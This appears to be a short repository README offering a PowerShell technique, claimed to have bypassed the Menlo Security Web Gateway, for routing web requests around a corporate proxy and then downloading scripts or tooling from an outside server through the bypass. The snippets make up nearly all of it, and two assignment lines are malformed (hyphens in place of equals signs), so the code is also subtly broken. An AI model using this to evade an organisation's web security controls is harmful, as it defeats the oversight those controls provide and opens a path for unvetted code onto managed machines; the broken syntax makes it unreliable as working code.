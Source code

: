 # Proxy-Bypass
A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## Powershell code for proxy bypass.
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
